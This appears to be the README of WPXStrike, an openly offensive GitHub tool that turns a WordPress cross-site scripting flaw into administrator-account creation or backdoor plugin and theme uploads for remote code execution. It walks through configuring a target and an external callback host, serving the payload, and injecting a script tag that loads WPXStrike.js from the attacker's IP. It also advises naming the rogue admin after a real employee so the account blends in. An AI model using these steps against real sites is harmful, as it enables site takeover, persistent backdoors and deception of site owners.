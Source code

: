 
<h1 align="center">
  <br>
  <img src="https://github.com/nowak0x01/WPXStrike/assets/96009982/36f99c00-31f9-45fa-ab4d-746481a16de4" alt="WPXStrike" width="350">
  <br>
  WPXStrike
  <br>
</h1>



<h4 align="center">WordPress Exploitation Script that elevate XSS to RCE or Others Critical Vulnerabilties</a>.</h4>

<p align="center">
  <a href="#about">About</a> •
  <a href="#key-features">Key Features</a> •
  <a href="#how-to-use">How To Use</a> •
  <a href="#examples">Examples</a> •
  <a href="#contributing">Contributing</a>
</p>


![3](https://github.com/nowak0x01/WPXStrike/assets/96009982/235613e8-79a7-4e66-9166-47efb5b60ceb)



## About
_**WPXStrike**_ is a script designed to escalate a **Cross-Site Scripting (XSS)** vulnerability to **Remote Code Execution (RCE)** or other's criticals vulnerabilities in WordPress.<br><br>
⭐ **This script provides support for **Wordpress** **Versions** **6.X.X**, **5.X.X** and **4.X.X**.** 🌟

## Key Features

* _**Privilege Escalation**_
  - Creates an user in WordPress.
* _**(RCE) Custom Plugin (backdoor) Upload**_
  - Upload your custom plugin (backdoor) to WordPress.
* _**(RCE) Built-In Plugin Edit**_
  - Edit a Built-In Plugins in WordPress.
* _**(RCE) Built-In Theme Edit**_
  - Edit a Built-In Themes in WordPress.
* _**(Custom) Custom Exploits**_
  - Custom Exploits for Third-Party WordPress Plugins/Themes.
  
## How To Use
https://github.com/nowak0x01/WPXStrike/assets/96009982/05ae1c34-5c0c-4ee5-b80e-0c8c270dbba0

1\) Clone the Repository
```bash
git clone https://github.com/nowak0x01/WPXStrike
```

2\) Edit the script by selecting the desired function, modifying its variable values and select the module. (Example: _**WPCreateAccount()**_)
```
// ************************************ ~% Variables %~ ************************************ //

var Target = "https://wordpress.example.com/"; // Ex: https://172.16.0.13:8000/wordpress/
var Callback = "https://fqgx7638bcvddnsrufh3nxbozd.oastify.com/"; // Ex: https://collaborator.oastify.com/ (optional) (only if you want to receive feedback at each stage).

// ************************************ ~% Functions %~ ************************************ //

WPCreateAccount(); // (Privilege Escalation) - Creates an user in WordPress.
// WPUploadCustomPlugin(); // (RCE) - Upload your custom plugin (backdoor) to WordPress.
// WPEditPlugins(); // (RCE) - Edit a Built-In Plugins in WordPress.
// WPEditThemes(); // (RCE) - Edit a Built-In Themes in WordPress.
// CustomExploits(); // (Custom) - Custom Exploits for Third-Party WordPress Plugins/Themes.

function WPCreateAccount() {

    /* ************************************************************************************************************************************************ */
    var Username = "nowak";         // Ex: operator (It is recommended to use a valid employee name from the target company).
    var Password = `j^QEkyvd7*g3xqsE`;          // (weak password are allowed).
    var Email = "nowak@example.com";  // Ex: user@company.net (It is recommended to use a business email from the target company) (No email will be sent to the email address entered).
    var Role = "administrator";                 // Ex: administrator, editor, author, contributor, subscriber.
    var FirstName = ""; // (optional)
    var LastName = "";  // (optional)
    /* ************************************************************************************************************************************************ */

    // ************************************ ~% WPCreateAccount Modules %~ ************************************ //
    // [#] Choose one of the available modules [#] //
    WPXCreateAccount(); // Wordpress Create Account Module for Wordpress 6.X.X, 5.X.X and 4.X.X.
    /* ************************************************************************************************************************************************ */

    // Wordpress Create Account Module for Wordpress 6.X.X, 5.X.X and 4.X.X.
    function WPXCreateAccount() {
      ...
    }

```

3\) Start a web server
```bash
php -S 0.0.0.0:80 -t .
```

4\) Go to the WordPress XSS vector and include _**WPXStrike.js**_
```
https://wordpress.example.com/?search=<script%20src="//YOURIP/WPXStrike.js"></script>
```

## Examples
**_WPCreateAccount()_ - Creates an user in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/60940909-e13c-4161-9638-864cab36fdcd

**_WPUploadCustomPlugin()_ - Upload your custom plugin (backdoor) to WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/08deea5f-acd2-412c-b248-28a71b0ff96d

**_WPEditThemes()_ - Edit a Built-In Themes in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/ae52c7cf-26f2-44f7-aed2-e4493874bdf1

**_WPEditPlugins()_ - Edit a Built-In Plugins in WordPress.**

https://github.com/nowak0x01/WPXStrike/assets/96009982/b744d37c-bf17-4fc4-8cb1-6ede389da6c7

**_CustomExploits()_ - Custom Exploits for Third-Party WordPress Plugins/Themes**.<br>
// pending

# Contributing
If you're interested in contributing, enhancing the existing code, your efforts would be immensely appreciated. Your contributions will play a key role in making this project even better.
<pre>
              ;,_            ,
                 _uP~"b          d"u,
                dP'   "b       ,d"  "o
               d"    , `b     d"'    "b
              l] [    " `l,  d"       lb
              Ol ?     "  "b`"=uoqo,_  "l
            ,dBb "b        "b,    `"~~TObup,_
          ,d" (db.`"         ""     "tbc,_ `~"Yuu,_
        .d" l`T'  '=                      ~     `""Yu,
      ,dO` gP,                           `u,   b,_  "b7         
     d?' ,d" l,                           `"b,_ `~b  "1
   ,8i' dl   `l                 ,ggQOV",dbgq,._"  `l  lb      WPXStrike (https://github.com/nowak0x01/WPXStrike)
  .df' (O,    "             ,ggQY"~  , @@@@@d"bd~  `b "1
 .df'   `"           -=@QgpOY""     (b  @@@@P db    `Lp"b,
.d(                  _               "ko "=d_,Q`  ,_  "  "b,
Ql         .         `"qo,._          "tQo,_`""bo ;tb,    `"b,
qQ         |L           ~"QQQgggc,_.,dObc,opooO  `"~~";.   __,7,
qp         t\io,_           `~"TOOggQV""""        _,dg,_ =PIQHib.
`qp        `Q["tQQQo,_                          ,pl{QOP"'   7AFR`
  `         `tb  '""tQQQg,_             p" "b   `       .;-.`Vl'
             "Yb      `"tQOOo,__    _,edb    ` .__   /`/'|  |b;=;.__
                           `"tQQQOOOOP""`"\QV;qQObob"`-._`\_~~-._
                                """"    ._        /   | |oP"\_   ~\ ~\_~\
                                        `~"\ic,qggddOOP"|  |  ~\   `\~-._
                                          ,qP`"""|"   | `\ `;   `\   `\
                               _        _,p"     |    |   `\`;    |    |
    @Author: Hudson Nowak      "boo,._dP"       `\_  `\    `\|   `\   ;
                                 `"7tY~'            `\  `\    `|_   |
                                                      `~\  |
</pre>
